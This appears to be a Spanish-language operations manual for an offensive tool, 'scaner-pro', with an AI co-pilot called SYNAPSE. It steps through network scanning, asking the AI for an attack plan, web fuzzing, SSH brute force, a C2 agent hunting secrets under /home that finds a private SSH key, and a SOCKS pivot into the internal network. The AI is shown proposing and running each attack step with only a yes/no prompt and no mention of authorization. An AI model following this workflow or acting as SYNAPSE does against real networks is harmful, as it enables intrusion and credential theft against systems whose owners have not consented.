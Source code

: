# Manual de Operaciones
## Fase 1: Reconocimiento y Planificación de la Misión
Toda operación comienza con un plan.

1. Iniciar la Misión:
Crea un espacio de trabajo para la operación. Esto genera un directorio y un state.json que será la memoria de la IA.
```Bash
scaner-pro mission start "Operacion_Quimera"

```
Lanzar el Escaneo Inicial:
Alimenta a la IA con los primeros datos. Usa el flag -m para guardar los resultados en el contexto de la misión.
code
```Bash
scaner-pro scan 10.10.20.0/24 22,80,443,445,3389,8080 -m "Operacion_Quimera"
```Entrar en la Sala de Operaciones (Chat):
Aquí es donde colaboras con tu co-piloto.
```Bash
scaner-pro mission chat "Operacion_Quimera"
```
Dentro del chat, puedes preguntar:
resume los hallazgos.
¿cuál es el host más interesante?
propón un plan de ataque para 10.10.20.55.
Fase 2: Infiltración y Explotación
La IA te propondrá acciones. Si las autorizas, SYNAPSE las ejecutará.
Ejemplo de Interacción (Fuzzing):
[SYNAPSE]: He encontrado un servidor web en http://10.10.20.55:8080. Recomiendo un escaneo de directorios para encontrar un panel de administración.
[PRÓXIMA ACCIÓN RECOMENDADA]: fuzz web-dir -u http://10.10.20.55:8080 -w ./wordlists/common.txt
¿Proceder? (s/n) > s
Ejemplo de Interacción (Fuerza Bruta):
[SYNAPSE]: El escaneo ha revelado un puerto SSH en 10.10.20.70. El siguiente paso lógico es intentar un ataque de fuerza bruta con credenciales comunes.
[PRÓXIMA ACCIÓN RECOMENDADA]: bruteforce ssh -t 10.10.20.70 -U ./wordlists/users.txt -P ./wordlists/passwords.txt
¿Proceder? (s/n) > s
Fase 3: Post-Explotación y Movimiento Lateral
Una vez dentro, el objetivo es expandir tu control.
Caza de Botín (Looting):
Despliega el agente en el objetivo y ordénale que busque secretos.
code
```Bash
# Comando enviado a través del agente C2
{
  "comando": "loot",
  "args": ["hunt", "-p", "/home", "-m", "Operacion_Quimera"]
}
```

La IA analizará los resultados:
[SYNAPSE]: ¡Botín encontrado! Se ha localizado una clave privada SSH en /home/dev/.ssh/id_rsa. Recomiendo usar esta clave para intentar pivotar al host 10.10.20.90, que estaba en la misma subred.
Pivoting con Proxy SOCKS (El Portal):
Esta es la técnica definitiva para dominar la red interna.
Activa el proxy en la máquina comprometida (a través del agente C2):

```Json
{
  "comando": "pivot",
  "args": ["socks", "-p", "9050"]
}
```
